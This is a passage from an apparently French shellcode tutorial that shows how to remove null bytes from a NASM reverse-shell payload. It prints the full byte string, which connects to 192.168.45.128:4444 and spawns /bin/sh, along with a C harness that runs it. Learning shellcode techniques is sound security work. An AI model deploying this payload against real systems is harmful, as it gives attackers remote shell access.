 Le programme doit transférer une valeur d'un octet, 29, dans un registre de 8 octets. Cependant, lors de l'assemblage, le compilateur NASM, confronté à cette situation, doit transférer la valeur dans un registre d'au moins 32 bits, soit 4 octets au minimum si ce n'est pas spécifié dans le code. C'est pourquoi l'instruction déplace d'abord 29 dans eax. Étant donné que 29 ne nécessite qu'un octet, les 3 octets restants du registre de 4 octets doivent être remplis. NASM les remplit avec des zéros, soit 3 octets remplis de null bytes, d'où "29 00 00 00" !

Maintenant que l’on sait pourquoi il y a des null bytes, comment les enlever ?

Il est simplement nécessaire de spécifier au code assembleur la taille de la valeur à déplacer. Par exemple, si vous souhaitez déplacer une valeur d'un octet, vous n'utiliserez qu'un seul octet des 8 disponibles dans le registre, et ainsi de suite.

Voici la correction : 

```nasm
; mov rax, 29 cette instruction génère 3 null bytes comme vu précédemment
mov al, 29 ; Ici on utilise AL, le dernier octet du registre RAX, 
           ; pour stocket 29, une valeur d'un  seul octet
```

Il suffit de faire ceci sur toutes les instructions “mov” de notre programme qui déplacent une valeur inférieure à 8 octet dans un registre complet.

Une fois ceci fait, nous allons juste rajouter ces instructions au tout début de notre programme : 

```nasm
xor rax, rax
xor rbx, rbx
xor rcx, rcx
xor rdx, rdx
xor rdi, rdi
xor rsi, rsi
```

Ceci permettra de mettre à 0 tous les registres nécessaires lors de l’exécution du shellcode pour qu’il puisse fonctionner sans problème.

Une fois ces deux modification faites, le shell code fonctionne toujours et surtout regardons si nous avons des null bytes !

```nasm
┌──(dropa㉿kali)-[~/Bureau/articles/shellcode]
└─$ objdump -d myShell | grep '^ ' | cut -f2 | awk '{for(i=1;i<=NF;i++) printf "\\x%s",$i} END {print ""}' 
\xb0\x29\x40\xb7\x02\x40\xb6\x01\xb2\x06\x0f\x05\x49\x89\xc0\x48\x83\xec\x08\xc6\x04\x24
\x02\x66\xc7\x44\x24\x02\x11\x5c\xc7\x44\x24\x04\xc0\xa8\x2d\x80\x48\x89\xe6\xb2\x10\x41
\x50\x5f\xb0\x2a\x0f\x05\xb0\x21\x41\x50\x5f\x48\x31\xf6\x0f\x05\xb0\x21\x41\x50\x5f\x40
\xb6\x01\x0f\x05\xb0\x21\x41\x50\x5f\x40\xb6\x02\x0f\x05\x48\x31\xf6\x56\x48\xbf\x2f\x62
\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x99\x0f\x05
```

Aucun null byte ! Le shell code devrais donc fonctionner. Pour le tester voici le code C :

```c
#include <stdio.h>
#include <string.h>

int main(){
    char code[] = "\xb0\x29\x40\xb7\x02\x40\xb6....\x3b\x99\x0f\x05";
    printf("Shellcode length: %d\n", strlen(code));
    int (*ret)() = (int(*)())code;
    return ret();
}
```
